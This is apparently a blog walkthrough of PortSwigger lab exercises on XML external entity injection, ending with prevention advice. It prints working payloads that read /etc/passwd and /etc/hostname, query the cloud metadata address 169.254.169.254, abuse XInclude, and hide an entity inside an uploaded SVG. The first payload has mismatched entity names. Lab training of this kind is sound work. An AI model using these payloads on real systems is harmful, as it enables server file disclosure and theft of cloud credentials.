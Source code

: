 ```yaml
---
title: "XML external entity injection XXE"
date: 2025-05-15T16:06:04+01:00
draft: false
tags: ["Security", "XXE", "web", "Portswigger"]
categories: ["web"]
type: "portswigger"
description: "A practical walkthrough of XML External Entity (XXE) injection vulnerabilities using PortSwigger labs. Learn how attackers exploit XML parsers to access server files and sensitive data, with hands-on examples, payloads, and tips for detection and prevention."
---
```


XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
-Portswigger- https://portswigger.net/web-security/xxe

Background 

XML, Extensible Markup Langauge is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.
-Portswigger- https://portswigger.net/web-security/xxe/xml-entities


Code Academy, introduction to XML
https://www.youtube.com/watch?v=O7fmNwbtCjo

Data flow from Server to client and client to server via JSON and XML

**Portswigger XXE Lab: Apprentice**

Sign in and start the lab

![](1.png)

Start Caido and look for the post request once you use the "checkstock" button on the website.

![](2a.png)

Create a system call:
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY gap SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

then replace the productID with your call:
```&gap```

![](2.png)

![](3.png)


------

OKay 2nd Lab:

Start the lab and navigate to one of the products, click on the stock check button at the bottom. 

![](4.png)

Use this command after the external entry definition.

```<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>```

Then replace the ProductID with this:
``` &xxe;```

![](5.png)

Navigate through the servers file system ```169.254.169.254/latest/```

![](6.png)

Keep following until it pays out!

![](7.png)

------

Next Lab:

**XInclude attacks:**

Insert this call to the Xinclude library where the ProductID is:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![](8.png)

**XXE attacks via file upload**

This one is a little harder. start by upload an .svg file as a post. Grab a common svg file like this from the web.

```
<svg xmlns="http://www.w3.org/2000/svg" version="1.1"
     width="120" height="120">
  <rect x="14" y="23" width="200" height="50" fill="lime"
      stroke="black" />
</svg>
```

Vim, paste and exit. 

![](9.png)

Upload it as a post then send the post to replay in Caido.

![](10.png)
![](11.png)


Now swap out the svg data for a something a little more malicious.

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

![](12.png)

Reload the page and look for your post. 

![](13.png)
You should now be able to right click on the post avatar(svg image) and open it in a new tap to read and enter the solution.

![](14.png)

![](15.png)

![](16.png)

**How to prevent XXE vulnerabilities**
Virtually all XXE vulnerabilities arise because the application's XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The easiest and most effective way to prevent XXE attacks is to disable those features.

Generally, it is sufficient to disable resolution of external entities and disable support for XInclude. This can usually be done via configuration options or by programmatically overriding default behavior. Consult the documentation for your XML parsing library or API for details about how to disable unnecessary capabilities. - Postwigger -


